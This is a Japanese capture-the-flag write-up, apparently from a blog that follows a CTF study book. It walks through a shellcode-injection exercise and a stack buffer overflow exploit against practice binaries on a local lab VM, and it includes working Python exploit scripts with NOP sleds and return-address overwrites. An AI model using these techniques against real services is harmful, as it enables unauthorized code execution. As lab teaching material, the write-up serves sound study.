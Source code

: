 # 実行方法
問題のzip内のREADME.mdを参照

#解析
## 一つ目のフラグ
本のとおりです。

## 二つ目のフラグ
`nano`の解析です。
`nano.c`があるので、逆アセンブリの解析は必要ありません。

このプログラムは、完全にpwnの練習用に作られていて、`shellcode`書いてねってことを言ってます。

`shellcode`というのは、pwnで使われる、攻撃を行うためのコードです。
>シェルコードは攻撃の際に使う機械語で書かれたプログラムの断片のことで、主にシェルを起動するために作られている場合が多いことからシェルを起動するかに関わらずシェルコードと呼んでいます。


[CTFチャレンジブックの関連記事](https://book.mynavi.jp/manatee/detail/id=64562)
がわかりやすく解説してくれてます。

シェルコードを送り込むプログラムがこちら(元のやつより簡単にしています)


```
import telnetlib
import time

# IP アドレスは自分のVMのアドレスに合わせてください
tn = telnetlib.Telnet('10.228.155.6', 22222)
s = tn.get_socket()
with open('shellcode_nano', 'rb') as f:
  sc = f.read()
sc = sc.rjust(140, b'\x90')
s.send(b'./nano\n')
time.sleep(0.5)
s.send(sc + b'\n')
print(s.recv(2048))

```

---

解説していきます。
最初の2行で、リモートのマシンに接続します。
やってることは`nc 10.228.155.6 22222`と変わりません。

```
tn = telnetlib.Telnet('10.228.155.6', 22222)
s = tn.get_socket()
```

---

次に作成したシェルコードを読み込みます。
バイナリで読み込むために、引数に`'rb'`を指定しています。
nano.cでは140バイト読み込むので、`0x90`（NOP命令）を使って先頭部分を埋めています。

```
with open('shellcode_nano', 'rb') as f:
  sc = f.read()
sc = sc.rjust(140, b'\x90')
```

---

そして、まずはnanoを実行しましょう。
`'./nano'`という文字列を送ればいいですね。
最後に改行（`'\n'`）を入れるのを忘れずに！
ここで、nanoが立ち上がるのを待つために、`time.sleep()`を使ってプログラムを少し止めます。

```
s.send(b'./nano\n')
time.sleep(0.5)
```

---

最後に、シェルコードを送り込んで、返ってくる文字列を`print`してあげれば完成です。

```
s.send(sc + b'\n')
print(s.recv(2048))
```


## 三つ目のフラグ
スタックバッファオーバーフローの問題です。

https://raintrees.net/attachments/download/307/wikipedia_StackBufferOverflow.png

スタックバッファオーバーフローに対する攻撃では、その関数のリターンアドレスが格納されているメモリを、入力した文字列で上書きすることで、EIP（現在どのメモリの命令を実行するかを示すレジスタ）を奪います。

今回は、NXbitが無効なので、シェルコードを書き込んで、そのアドレスにEIPを持って行くことで、好きなコードを実行できます。
本来シェルコードはこのように攻撃をするためにあります。

*NXbit : プログラムのコード以外の部分を実行可能であるとセキリティ上よくないので、メモリ上で実行不可能な部分を設定すること。
これがオンであると、shellcodeによる攻撃は難しい。

---

逆アセンブリすると、本のようなスタック構造になっているのが分かる。

攻撃手法は本の通りとして、
攻撃コードの解説をする。

基本はnanoの攻撃と同様である。

今回はアドレスを扱うため、pythonの`struct.pack()`関数を用いて
アドレスをリトルエンディアンでフォーマットしている。

---

```
import telnetlib
import time
import struct

def pI(addr):
    return struct.pack('<I', addr)

tn = telnetlib.Telnet('10.228.155.83', 22222)
s = tn.get_socket()
with open('stager', 'rb') as f:
  stager = f.read()
with open('shellcode_pico', 'rb') as f:
  sc = f.read()

s.send(b'./pico\n')
time.sleep(0.5)
tn.read_until(b'addr: ')

addr_pass = int(tn.read_until(b'\n')[:-1], 16)

print('{0}'.format(hex(addr_pass)))

payload1 = b'A'*0x1c
payload1 += pI(addr_pass + 0x20+0x8)
payload1 += b'\x90' * 0x30
payload1 += stager

s.send(payload1 + b'\n')

time.sleep(0.5)

s.send(b'A\n')

payload2 = b''
payload2 += b'\x90'*0x30
payload2 += sc

s.send(payload2)

print(s.recv(2048))
```
